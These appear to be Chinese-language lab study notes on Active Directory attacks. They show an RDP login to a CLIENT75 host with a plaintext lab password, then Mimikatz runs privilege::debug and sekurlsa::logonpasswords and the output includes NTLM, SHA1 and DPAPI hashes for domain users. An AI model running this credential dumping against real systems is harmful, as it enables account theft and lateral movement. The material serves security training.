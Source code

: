 #### 1. Mimikatz 提取密碼雜湊
##### 1.1 RDP 連線並啟用 Mimikatz
jeff domain user 是 CLIENT75 的 local administrator，所以可以在本機提權
```
┌──(chw㉿CHW)-[~]
└─$ xfreerdp /cert-ignore /u:jeff /d:corp.com /p:HenchmanPutridBonbon11 /v:192.168.208.75
```
(Powershell): Run as Administrator
```
PS C:\Windows\system32> cd C:\Tools\
PS C:\Tools> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 14 2022 15:03:52
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK
```
> 啟用 SeDebugPrivilege 權限，讓 Mimikatz 具備存取 LSASS 記憶體 的權限。

##### 1.2 提取所有已登入使用者的密碼雜湊
```
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 4876838 (00000000:004a6a26)
Session           : RemoteInteractive from 2
User Name         : jeff
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/9/2022 12:32:11 PM
SID               : S-1-5-21-1987370270-658905905-1781884369-1105
        msv :
         [00000003] Primary
         * Username : jeff
         * Domain   : CORP
         * NTLM     : 2688c6d2af5e9c7ddb268899123744ea
         * SHA1     : f57d987a25f39a2887d158e8d5ac41bc8971352f
         * DPAPI    : 3a847021d5488a148c265e6d27a420e6
        tspkg :
        wdigest :
         * Username : jeff
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : jeff
         * Domain   : CORP.COM
         * Password : (null)
        ssp :
        credman :
        cloudap :
...
Authentication Id : 0 ; 122474 (00000000:0001de6a)
Session           : Service from 0
User Name         : dave
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/9/2022 1:32:23 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1103
        msv :
         [00000003] Primary
```
